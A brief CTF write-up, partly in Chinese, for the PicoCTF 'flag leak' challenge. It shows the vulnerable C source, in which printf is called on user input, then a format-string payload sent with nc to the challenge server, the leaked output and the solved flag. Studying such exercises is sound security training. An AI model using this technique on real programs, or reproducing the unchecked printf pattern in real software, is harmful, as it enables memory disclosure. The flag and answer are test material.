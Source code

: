 ```yaml
---
title: PicoCTF - flag leak
tags: [PicoCTF, CTF, PWN]

category: "Security > Practice > PicoCTF > PWN"
---
```


# PicoCTF - flag leak
## Background
Format String Bug
![](https://hackmd.io/_uploads/BkqBmpOih.png)
![](https://hackmd.io/_uploads/SyvLXauon.png)

## Source code
:::spoiler
```cpp=
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}

```
:::
## Recon
這一題比計安教的還簡單，不過我全忘了QQ
先用gdb跟一下，發現在stack的地方有flag的痕跡，記一下相對位置就可以print出來，如果怕不同device會有問題的話就多幾個
## Exploit
Payload: `%20$s%21$s%22$s%23$s%24$s%25$s%26$s`
```bash!
python -c 'print("%20$s%21$s%22$s%23$s%24$s%25$s%26$s")' | nc saturn.picoctf.net 50811
Tell me a story and then I'll tell you one >> Here's a story -
������e�
        setresgidCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}���̓ii
```

Flag: `picoCTF{L34k1ng_Fl4g_0ff_St4ck_5e16d521}`